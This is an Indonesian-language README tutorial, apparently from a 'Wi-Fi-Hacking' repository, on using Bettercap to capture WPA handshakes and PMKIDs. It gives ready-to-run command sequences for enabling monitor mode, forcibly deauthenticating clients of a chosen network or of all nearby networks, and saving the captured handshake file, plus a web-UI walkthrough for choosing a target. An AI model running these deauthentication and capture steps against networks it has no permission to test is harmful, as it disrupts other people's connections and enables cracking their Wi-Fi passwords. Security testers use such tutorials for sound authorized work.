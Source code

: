# Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/bettercap%20logo.jpg)

[Bettercap](https://www.bettercap.org/) adalah perangkat lunak kerangka kerja keamanan yang kuat, mudah diperluas, dan portabel, ditulis menggunakan bahasa `Go`. Perangkat ini dirancang sebagai alat terpadu yang mudah digunakan bagi peneliti keamanan, tim pengujian penetrasi (red team), dan spesialis reverse engineering. Fitur-fiturnya memungkinkan pengumpulan informasi serta pengujian dan eksploitasi keamanan pada jaringan Wi-Fi, perangkat Bluetooth Low Energy (BLE), perangkat Human Interface Device (HID) nirkabel, jaringan CAN-bus, serta jaringan IPv4 dan IPv6.

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
bettercap -version
```

2. Pake Go:

```
sudo apt-get update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
go install github.com/bettercap/bettercap/v2@latest
sudo mv ~/go/bin/bettercap /usr/local/bin/
bettercap -version
```

Untuk informasi lebih lengkapnya lagi bisa lihat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

Sebelum menggunakan bettercap, kita harus mengaktifkan mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian web ui starting on, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Lakukan scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, antara lain:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan dBm.
   - `ESSID`: Nama jaringan Wi-Fi.
   - `BSSID`: Alamat MAC unik dari Access Point.
   - `Vendor`: Produsen perangkat Access Point berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang digunakan oleh jaringan Wi-Fi.
   - `Ch`: Kanal (channel) yang digunakan oleh Access Point.
   - `Clients`: Jumlah perangkat klien yang saat ini terhubung ke AP tersebut.
   - `Sent`: Jumlah paket data yang dikirim dari perangkat ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh perangkat.
   - `Seent`: Menunjukkan jumlah paket yang terdeteksi (seen) dari klien atau AP yang dipantau.
8. Di sini, kita harus memilih BSSID target yang ingin diserang, lalu klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita dapat melakukan dua jenis serangan, antara lain:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Untuk Capture Handshake, klik `Deauthenticate Client`. Untuk Capture PMKID, klik `Associate`. Dalam panduan ini, kita akan memilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Memerlukan setidaknya 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu sampe handshake berhasil capture. Handshake dianggap berhasil capture kalo muncul ikon `kunci merah` pada bagian `Encryption` dan notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari ketiga item di bagian pesan:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar di bawah ini kelihatan kalo file handshake disimpan di: `/root/bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
